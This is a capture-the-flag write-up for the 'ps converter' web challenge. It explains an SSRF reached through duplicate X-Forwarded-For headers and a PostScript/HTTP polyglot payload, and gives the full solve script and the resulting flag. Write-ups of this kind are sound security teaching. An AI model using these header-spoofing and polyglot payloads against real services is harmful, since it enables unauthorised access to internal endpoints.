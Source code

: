 # web/ps-converter

>**ps converter** (393 pts / 4 solves)
>
>Author: hugeh0ge
>
>Description: Try my Postscript converter!

The challenge is a webapp that lets us upload a [PostScript](https://en.wikipedia.org/wiki/PostScript) program, converts it to PDF and shows the result.

![](img/1.png)

Looking at the source code, we find out that the app is divided into 4 services: backend, frontend, flag and proxy.

In the frontend, the `/converter` endpoint is the interface where we can upload the PostScript file to be converted, which gets proxied to the root `/` endpoint of the backend.

In the backend, there's also an `/admin` endpoint that performs a request to the `/showmeflag` endpoint of the flag service and shows the output (flag), as long as we set a `Client-Ip` request header with value `127.0.0.1` or the backend IP, which is `123.45.67.102`.  

```go
client_ip_str := req.Header.Get("Client-Ip")
client_ip, err := net.ResolveIPAddr("ip", client_ip_str)
if check_err(err) { return }
my_ip, err := net.ResolveIPAddr("ip", "backend")
if check_err(err) { return }

if client_ip_str != "127.0.0.1" && !client_ip.IP.Equal(my_ip.IP) {
fmt.Fprintln(w, "You are not allowed to see the flag!")
return
}

res, err := http.PostForm("http://flag:3000/showmeflag", url.Values{}) 
if check_err(err) { return }
defer res.Body.Close()
```

However, the proxy doesn't allow direct external access the `/admin` endpoint of the backend. We need to find a way to perform SSRF as an internal request and read the output.

When the PostScript file we upload reaches the backend, the raw content is sent over TCP to the last comma-separated value of the `X-Forwarded-For` header, which would normally be the frontend IP (`123.45.67.100`) where the nginx server is. The frontend then converts the PostScript file to PDF.

```go
x_forwarded_for := req.Header.Get("X-Forwarded-For")
ips := strings.Split(x_forwarded_for, ", ")
ps2pdf := ips[len(ips)-1]
tcp_addr, err := net.ResolveTCPAddr("tcp", ps2pdf + ":3000")
conn, err := net.DialTCP("tcp", nil, tcp_addr)
if check_err(err) { return }

_, err = conn.Write(script)
if check_err(err) { return }
conn.CloseWrite()

var resp []byte
resp, err = io.ReadAll(conn)
if check_err(err) { return }
```

```bash
sudo -u user socat TCP-L:3000,reuseaddr,fork EXEC:"/run_ps2pdf.sh"
```

To perform SSRF, we need to spoof the `X-Forwarded-For` header so that the value of `ps2pdf` in the above code becomes an arbitrary host of our choosing instead of the frontend.

Using Burp Suite, we can try appending a fake `X-Forwarded-For` header to the POST `/converter` request.

```
X-Forwarded-For: test
```

However, we'll realize that it doesn't work because the frontend IP `123.45.67.100` gets appended by the proxy when it reaches the backend.

```
X-Forwarded-For: backend, 123.45.67.100
```

But if we send duplicate `X-Forwarded-For` headers, we realize that only the first one is taken, without the `123.45.67.100` being appended! By sending the following headers, we can make the backend perform a TCP-based SSRF to any host we want, for example the backend itself.

```
X-Forwarded-For: backend
X-Forwarded-For: dummy
```

Since HTTP is based on TCP, we can induce an SSRF to the `/admin` endpoint and read the flag if we manage to upload a PostScript file like this:

```
GET /admin HTTP/1.1
Host: backend
Client-Ip: 127.0.0.1
```

However, the backend checks if the file we upload is actually a valid PostScript file before sending it, so we need to find a way to modify our payload so that it becomes both a valid HTTP request and a valid PostScript file.

First, the backend checks if our file is a PostScript file with the Linux `file` command.

```go
// First, check if the posted file is actually a Postscript file.
// 1. check `file` output
cmd := exec.Command("file", "-")
cmd.Stdin = bytes.NewReader(script)
var stdout1 bytes.Buffer
var stderr1 bytes.Buffer
cmd.Stdout = &stdout1
cmd.Stderr = &stderr1

err = cmd.Run()
if check_err(err) { return }

err_str1 := stderr1.String()
if err_str1 != "" {
    w.Header().Set("Content-Type", "text/plain")
    w.WriteHeader(http.StatusInternalServerError)
    fmt.Fprintf(w, "file returned error: [redacted]\n")
    return
}

out_str1 := stdout1.String()
if !strings.Contains(out_str1, "PostScript document text") {
    w.Header().Set("Content-Type", "text/plain")
    w.WriteHeader(http.StatusBadRequest)
    fmt.Fprintf(w, "Get out, poor hacker!\n")
    return
}
```

On the [Wikipedia page](https://en.wikipedia.org/wiki/PostScript), we find out that the magic number of the PostScript file format is `%!`, which means our file needs to begin with `%!` to bypass the first check.

```
%!GET /admin HTTP/1.1
Host: backend
Client-Ip: 127.0.0.1
```

However, would the Go HTTP server (which the backend uses) still accept this as a valid GET request? Suprisingly, yes! Even if we append `%!`, Go still considers it to be the same request. However, if we try to perform SSRF to the `/showmeflag` endpoint of the flag server to read the flag directly, we will get a Bad Request error, because the flag server uses the Python HTTP server which doesn't consider it to be a valid request unlike Go.

Now, we need to bypass the second check, which verifies if the `ps2ps` tool can process the PostScript file without errors, which means that our payload must have valid PostScript syntax. With the payload above, we will get an error because the lines with our request headers are not valid PostScript.

```go
// 2. check if ps2ps can actually process the file
cmd = exec.Command("ps2ps", "/dev/stdin", "/dev/stdout")
cmd.Stdin = bytes.NewReader(script)
var stdout2 bytes.Buffer
var stderr2 bytes.Buffer
cmd.Stdout = &stdout2
cmd.Stderr = &stderr2

err = cmd.Run()
if check_err(err) { return }

err_str2 := stderr2.String()
if err_str2 != "" {
w.Header().Set("Content-Type", "text/plain")
w.WriteHeader(http.StatusInternalServerError)
fmt.Fprintf(w, "ps2ps returned error: [redacted]\n")
return
}
```

In PostScript, a comment begins with `%` so I first tried to comment out the lines with `Host` and `Client-Ip`. However, it didn't work because the Go HTTP server couldn't parse the headers correctly with `%` appended. Moreover, multi-line comments do not exist in PostScript, so using comments seemed like a dead-end.

```
%!GET /admin HTTP/1.1
%Host: backend
%Client-Ip: 127.0.0.1
```

After some research looking at the [commands available in PostScript](https://personal.math.ubc.ca/~cass/courses/ps.html), I found out that the `quit` command can terminate interpretation of the program, which means that if we put a `quit` command before out request headers, `ps2ps` will not return any error because it will terminate before trying to interpret our headers!

```
%!GET /admin HTTP/1.1
quit
Host: backend
Client-Ip: 127.0.0.1
```

However, it is still not sufficient because now the Go HTTP server will try to parse the `quit` as a request header and throw an error. Here is how I fixed this:

```
%!GET /admin HTTP/1.1
quit%: dummy
Host: backend
Client-Ip: 127.0.0.1


```

The Go server will interpret the second line as a request header with name `quit%` and value `dummy`, while the PostScript interpreter will treat everything after `%` as a comment. Notice that we add some CRLF at the end to conform to the HTTP protocol. This becomes our final payload (`solve.ps`).

Now, we only need to post this file to the `/converter` endpoint, while spoofing the `X-Forwarded-For` header. I use the `httpx` Python package in my solve script (`solve.py`) because `requests` doesn't support duplicate headers. You could also simply add the headers manually with Burp Suite.

```python
import httpx

headers = [
    ('X-Forwarded-For', 'backend'),
    ('X-Forwarded-For', 'dummy')
]
files = {
    'file': open('solve.ps', 'rb')
}
r = httpx.post('http://ps-converter.2023.ricercactf.com:51514/converter', headers=headers, files=files)

print(r.text)
```

After executing the script, we get the response containing the flag!

```
RicSec{0mg_It_d035nt_l00k_anyth1n9_f6b0c427d3e2}
```
